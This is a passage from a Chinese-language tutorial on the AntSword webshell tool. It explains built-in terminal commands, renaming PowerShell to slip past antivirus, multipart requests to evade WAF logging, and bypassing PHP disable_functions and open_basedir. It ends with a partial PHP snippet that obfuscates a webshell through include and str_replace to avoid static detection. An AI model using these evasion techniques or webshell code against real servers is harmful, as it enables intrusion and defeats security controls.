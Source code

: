 ### 5 终端内的内置命令

如果终端无法执行系统命令可以参考这些内置命令，一般比较常用的是修改命令解释器

```
asenv \[Key=Value\]设置或显示环境变量, eg: asenv AAA=BBB
ascmd \[file\]指定file来执行命令, eg: ascmd /bin/bash
aslistcmd        列出可使用的命令解释器
aspowershell \[on|off\]启用/关闭PowerShell模式, eg: aspowershell on
aswinmode \[on|off\]强制启用/关闭为Windows模式(针对识别出错的情况), eg: aswinmode on
```

这里重点提下 aspowershell 命令，有些杀软对 powershell 查杀比较严，可以考虑把 powershell 复制到另外到目录并重命名，用 ascmd 指向新路径的 powershell，再执行 aspowershell on 开启 powershell 模式。这样可以绕过部分杀软。

### 6 使用 multipart 发包绕过 waf

很多防火墙和日志都不会记录 file 里的内容。涉及到性能，很多都不开。  
右键 shell，编辑数据，其他设置，勾选上使用 Multipart 发包即可。

### 7 绕过 disable\_functions 和 open\_basedir

php 下，配置 disable\_functions 可以用来限制使用某些敏感函数。open\_basedir 可以限制 php 代码能访问的路径。

在 shell 里如果可以访问文件，但是执行命令提示 ret=127 ，一般就是开启了 disable\_functions。如果访问非 web 路径提示错误，一般就是配置了 open\_basedir。

通过查看 phpinfo 信息也能看到这两项的配置信息。  
antsword 内置了插件，绕过 disable\_functions。已经集成了几种绕过方法，对于常见的情况都能绕过。

### 8 字符编码问题

在 antsword 中直接使用内置编辑器的时候需要特别注意下编码问题。

如果编码错了，直接编辑代码，某些情况下可能会造成程序无法正常运行。打开文件后可以直接在 “用此编码打开” 切换编码。

注意区分这里的字符编码和 antsword 的编码器里面编码的含义。

webshell 免杀
-----------

前面讲的编码器主要是用来混淆流量特征。对于一句话服务端的静态特征绕过一般用如下思路。按照思路举一反三即可

### 1 利用语言特性

静态查杀一般简单的做法是正则匹配，这种的话简单变换即可。更复杂的做法是 hook 底层函数，这种需要利用语言特性自己发挥，以下举两个例子。

#### 2 利用包含和关键字混淆

写入两个文件，一个用来执行代码和包含，一个用来获取 POST 请求.

1.php

```
<?php
include '2.php';
$b ='str\_replace';
$c = $b('1','', $a);
$c($d);
?>
```
